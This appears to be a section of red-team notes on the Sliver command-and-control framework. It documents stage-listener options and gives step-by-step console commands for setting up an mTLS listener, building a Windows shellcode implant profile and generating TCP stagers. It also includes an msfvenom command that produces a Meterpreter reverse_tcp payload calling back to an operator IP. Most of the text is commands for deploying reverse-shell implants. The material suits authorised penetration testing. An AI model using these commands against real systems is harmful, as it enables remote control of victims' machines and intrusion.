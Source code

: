 ```
======
      --aes-encrypt-iv  string    encrypt stage with AES encryption iv
      --aes-encrypt-key string    encrypt stage with AES encryption key
  -c, --cert            string    path to PEM encoded certificate file (HTTPS only)
  -C, --compress        string    compress the stage before encrypting (zlib, gzip, deflate9, none) (default: none)
  -h, --help                      display help
  -k, --key             string    path to PEM encoded private key file (HTTPS only)
  -e, --lets-encrypt              attempt to provision a let's encrypt certificate (HTTPS only)
  -P, --prepend-size              prepend the size of the stage to the payload (to use with MSF stagers)
  -p, --profile         string    implant profile name to link with the listener
  -u, --url             string    URL to which the stager will call back to
```

### 4.3.2 - Usage

#### 4.3.2.1 - Syntax

* Note: Any listener will work the only detail you should pay attention on the `stage-listener` sliver command

```
sliver > mtls -L <IP> -l 4488

sliver > profiles new [beacon] [-S 5] [-J 10] -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode

sliver > stage-listener -u <scheme>://<IP>:8080 -p stager-shellcode

sliver > generate stager -L <IP> -l <PORT> -r <tcp | http | https> -a <x64 | x86> -o <windows | linux | osx> -f <format> -s /path/to/shellcode
```

#### 4.3.2.2 - TCP

```
sliver > mtls -L <IP> -l 4488

sliver > profiles new -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode

sliver > stage-listener -u tcp://<IP>:8080 -p stager-shellcode

sliver > generate stager -r tcp -L <IP> -l 8080 -a x64 -o windows -f raw -s staged-sliver.bin
```

* Or you can generate it with `msfvenom`

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=8080 -f raw -o staged-sliver.bin`

#### 4.3.2.3 - HTTP

Note: `-P` or `--prepend-size` treats the first four bytes as instructions that your shellcode loader may not took this into account. It uses `msfvenom` to generate shellcode for you if it's installed on your system.
